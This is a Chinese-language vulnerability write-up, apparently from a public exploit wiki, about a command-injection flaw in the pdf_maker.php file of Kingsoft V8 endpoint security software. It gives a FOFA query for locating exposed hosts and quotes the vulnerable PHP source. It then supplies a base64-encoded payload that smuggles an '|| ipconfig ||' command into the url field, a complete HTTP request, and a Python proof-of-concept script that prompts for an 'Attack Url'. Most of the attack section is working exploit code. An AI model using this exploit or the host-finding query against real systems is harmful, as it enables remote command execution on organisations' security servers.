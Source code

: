 # 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞

## 漏洞描述

金山 V8 终端安全系统 pdf_maker.php 存在命令执行漏洞，由于没有过滤危险字符，导致构造特殊字符即可进行命令拼接执行任意命令

## 漏洞影响

> [!NOTE]
>
> 金山 V8 终端安全系统

## FOFA

> [!NOTE]
>
> app="猎鹰安全-金山V8+终端安全系统"

## 漏洞复现

存在漏洞的文件为

```
Kingsoft\Security Manager\SystemCenter\Console\inter\pdf_maker.php
```

```php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
/*
{
   "kptl" :
{
"set_exportpdf_cmd" :
    {
    "url" : "http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-                580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
    "fileName":"test.pdf"
    }
}
*/
	
	
	//$post = file_get_contents("php://input");
	
	/*
	$post = array("kptl"=>
			array("set_exportpdf_cmd"=>array(
				"url"=>"http://172.18.254.146/report/system/main.php?userSession=5784727B-7AEA-4EFE-B0CB-DDD6DA1CABD3&guid=1AC380D9-580C-49A8-B6EC-787CF50FA928&VHierarchyID=ADMIN",
				"fileName"=>"test1234.pdf"
				)
			));
			*/
			
	
			
	
	

	$url = $_POST["url"];
	$fileName =  $_POST["fileName"];
	$batName=$fileName;
	if ($url == null || $fileName == null)
	{
		$return["nResult"] = __LINE__;
		echo json_encode($return,JSON_UNESCAPED_UNICODE);
		return ;
	}
	
	$url = base64_decode($url);
	$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
	$fileName="..\\htmltopdf\\".$nameStr;

	system('mkdir ..\\htmltopdf');

	
	$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
	if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
		$cmd =" del ".$fileName;

		exec($cmd);
		$url_= str_replace('%','%%', $url);
		$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
		$batName ="exec_wkhtmltopdf.bat";
		$myfile = fopen($batName , "w");
		//$cmd =iconv("UTF-8", "gbk", $cmd );
		fwrite($myfile, $cmd);
		fclose($myfile);
		$cmd =$batName ;
		exec($cmd);
		$cmd =" del ".$batName;
		exec($cmd);
    }else
    {
	system($cmd);
    }
	// echo $url;
	$return = array("nResult" => "0","fileName" =>$nameStr,"url"=>$url);
	echo json_encode($return,JSON_UNESCAPED_UNICODE);
	
?>
```

![](http://wikioss.peiqi.tech/vuln/js-7.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

这里传入 base64加密的拼接命令即可执行任意命令

```
"|| ipconfig || --base64--> url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx
```

```
POST /inter/pdf_maker.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 45
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=noei1ghcv9rqgp58jf79991n04

url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
```

![](http://wikioss.peiqi.tech/vuln/js-8.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mTitle  : 金山 V8 终端安全系统 pdf_maker.php 命令执行漏洞                 \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/inter/pdf_maker.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = "url=IiB8fCBpcGNvbmZpZyB8fA==&fileName=xxx"
    try:
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if "Windows" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞 ,执行 ipconfig, 响应为:\n{} \033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/js-10.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Kingsoft V8 pdf_maker.php RCE

![](http://wikioss.peiqi.tech/vuln/js-9.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)
